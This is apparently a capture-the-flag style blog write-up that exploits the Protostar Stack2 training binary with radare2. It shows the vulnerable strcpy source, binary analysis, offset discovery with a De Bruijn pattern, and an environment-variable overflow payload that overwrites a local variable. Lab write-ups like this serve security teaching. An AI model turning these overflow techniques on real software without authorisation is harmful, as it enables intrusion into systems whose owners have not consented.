 ```yaml
---
layout: post
section-type: post
title: Exploiting Protostar Stack2 using radare2
category: buffer_overflow
tags: [ 'buffer_overflow', 'stack_overflow', 'radare2', 'protostar', 'write_up' ]
---
```

# Exploiting Protostar Stack2

[Problem link](https://exploit-exercises.com/protostar/stack2/)

You can check previous problems here :

- [Stack0]({{site.baseurl}}/buffer_overflow/2017/12/16/exploiting_protostar_stack0.html)
- [Stack1]({{site.baseurl}}/buffer_overflow/2017/12/18/exploiting_protostar_stack1.html)

## Problem source code

{% highlight C %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
{% endhighlight %}

We will work in this problem as we do not have the C source code

## First we want to know more info about the binary

{% highlight shell-session %}
$ rabin2 -I stack2
arch     x86
binsz    23350
bintype  elf
bits     32
canary   false
class    ELF32
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    NONE
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

As you can clearly see, our binary is a 32bit ELF file, not stripped, the file isn’t protected with canaries , pic, nx or relro.

## Let's run the app and see it working

{% highlight shell-session %}
$ ./stack2
stack2: please set the GREENIE environment variable

$ GREENIE=AAAAA..AAA ./stack2
Try again, you got 0x00000000

$ GREENIE=AAAAAAAAA..AAAAAAAAAAAAAAAA ./stack2
Try again, you got 0x41414141
[1]    8754 segmentation fault (core dumped)  GREENIE= ./stack2
{% endhighlight %}

## Let's have a look on what's happening inside the app

We will start the app inside Radare2 and have a look in Visual Mode to try understanding how it's working

{% highlight shell-session %}
$ r2 -d stack2
Process with PID 10188 started...
= attach 10188 10188
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> aas
[0xb7fdba30]> dcu main
Continue until 0x08048494 using 1 bpsize
hit breakpoint at: 8048494
[0x08048494]> VV
{% endhighlight %}

{% highlight nasm %}
    .--------------------------------.
    |  0x80484c8 ;[gb]               |
    | mov dword [local_58h], 0       |
    |    ; [0x5c:4]=-1               |
    |    ; '\'                       |
    |    ; 92                        |
    | mov eax, dword [local_5ch]     |
    | mov dword [local_4h], eax      |
    |    ; 0x18                      |
    |    ; 24                        |
    | lea eax, dword [local_18h]     |
    | mov dword [esp], eax           |
    | call sym.imp.strcpy;[gf]       |
    |    ; [0x58:4]=-1               |
    |    ; 'X'                       |
    |    ; 88                        |
    | mov eax, dword [local_58h]     |
    | cmp eax, 0xd0a0d0a             |
    | jne 0x80484fd;[gg]             |
    `--------------------------------'
{% endhighlight %}

So this is the key line `cmp eax, 0xd0a0d0a`, so our main **Goal** is to override `$eax` with `0xd0a0d0a`

Now we’ll use a tool in radare’s framework called `ragg2`, which allows us to generate a cyclic pattern called [De Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) and check the exact offset where our payload overrides the buffer.

{% highlight shell-session %}
$ printf "GREENIE=" > env.txt; ragg2 -P 100 -r >> env.txt; printf "\n" >> env.txt;
$ cat env.txt
GREENIE=AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
$ vim r2profile.rr2
$ cat r2profile.rr2
#!/usr/bin/rarun2
envfile=./env.txt
$ r2 -d stack2 -e dbg.profile=r2profile.rr2
Process with PID 31242 started...
= attach 31242 31242
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0xb7fdba30]> aas
[0xb7fdba30]> dcu main
Continue until 0x08048494 using 1 bpsize
hit breakpoint at: 8048494
[0x08048494]> V

{% endhighlight %}

In visual mode you can move step by step using `S` until you reach the line before `cmp eax, 0xd0a0d0a`

{% highlight shell-session %}
[0x080484d8]> wopO eax
64
{% endhighlight %}

Now let's rewrite our payload and exploit the binary ** Notice that we are working with a little indean so `0xd0a0d0a` will be `\x0a\x0d\x0a\x0d` (Reversed)

{% highlight shell-session %}
$ printf "GREENIE=" > env.txt; python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d" + "B" * 20' >> env.txt; printf "\n" >> env.txt;
{% endhighlight %}

Oops, it did not work with a file because `\x0a` is `\n` in ascii so it's not working with env :(

{% highlight shell-session %}

$ GREENIE=`python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d" + "B" * 20'`
$ export GREENIE
$ r2 -d stack2
Process with PID 2357 started...
= attach 2357 2357
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
[0x08048494]> dc
you have correctly modified the variable
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
{% endhighlight %}

And we did it ;)
